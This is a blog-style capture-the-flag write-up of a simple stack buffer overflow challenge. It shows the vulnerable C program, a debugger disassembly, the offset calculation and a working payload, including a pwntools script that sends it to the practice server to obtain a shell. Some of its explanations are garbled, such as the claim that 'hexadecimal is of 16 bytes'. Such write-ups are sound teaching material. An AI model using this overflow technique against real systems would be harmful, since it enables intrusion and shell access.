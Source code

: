 ```yaml
---
layout: post
published: true
title: Simple Stack overflow Challange 
tags:
 - ctf
 - stack overflow
 
comments: true

---
```


# Breakdown of program

I opened the challenge and found there two files bof and bof.c let’s breakdown the function :p so the program was:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

in this we can see there are two functions “func” and “main” in this program we can see function name “func” takes a parimiter key and declared a variable overflowme having a buffer 32 then it takes input and compares with the key “0xcafebabe” if the key is correct it gives us pass else it wll say nah while in the next function main () it just calling “func” and gives HARthe value of key “ox0deadbeef”
that’s how program worked what we need is to overwrite the stack to get the flag
binary eploitation and analysis
let’s dissamble the “func” function to see the asssembly code i.e whats hapening with our code

```
gef➤ disass func
Dump of assembler code for function func:
0x5655562c <+0>: push ebp
0x5655562d <+1>: mov ebp,esp
0x5655562f <+3>: sub esp,0x48
0x56555632 <+6>: mov eax,gs:0x14
0x56555638 <+12>: mov DWORD PTR [ebp-0xc],eax
0x5655563b <+15>: xor eax,eax
0x5655563d <+17>: mov DWORD PTR [esp],0x5655578c
0x56555644 <+24>: call 0xf7e27460 <__GI__IO_puts>
0x56555649 <+29>: lea eax,[ebp-0x2c]
0x5655564c <+32>: mov DWORD PTR [esp],eax
0x5655564f <+35>: call 0xf7e26980 <_IO_gets>
0x56555654 <+40>: cmp DWORD PTR [ebp+0x8],0xcafebabe
0x5655565b <+47>: jne 0x5655566b <func+63>
0x5655565d <+49>: mov DWORD PTR [esp],0x5655579b
[ Legend: Modified register | Code | Heap | Stack | String ]
here we can see cmp which compares both strings and gave us output according to our strings lest’s set breakpoint at cmp with his address and run the our program with AAAAAAAAAAAAAAAAAA to buffer overflow
gef➤ break *0x56555654
Breakpoint 2 at 0x56555654
gef➤ c
Continuing.
overflow me :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

let’s start to search 0x0deadbeef key in esp register we can see it by typing x/40xw in gef debugger we can see output like this:

here we can see our output AAAAAAAAAAA as “0x414141” and we can see the key 0xedeadbeef too now we find out the distance between our input and the key i.e deadbeef we all know hexadecimal is of 16 bytes and value is stored IN REGISTERS like:
AAAA = 4*4 = 16
so as a highlighted our AAAA is started and where the 0x0deadbeef occurs there are 13 hexa digits so according to basic math
Distance = 13*4= 52 bytes
so we need 52 character to exploit so acccording to little endia ( data in c stored in format of little endia) key will be ‘\xbe\xba\xfe\xca’” and have 52 chracters so final payload will be
**python -c “print ‘A’ * 52 + ‘\xbe\xba\xfe\xca’”**
i code (steal) little python script and run this payload
from pwn import *
conn = remote(“pwnable.kr”, 9000)
payload = ‘A’ * 52 + ‘\xbe\xba\xfe\xca’
conn.sendline(payload)
conn.interactive()
then i got flag after going to home directory and typed cat flag :) that;s all
i made a video too if uh got time then saw this too: https://youtu.be/0s10ul66vqQ
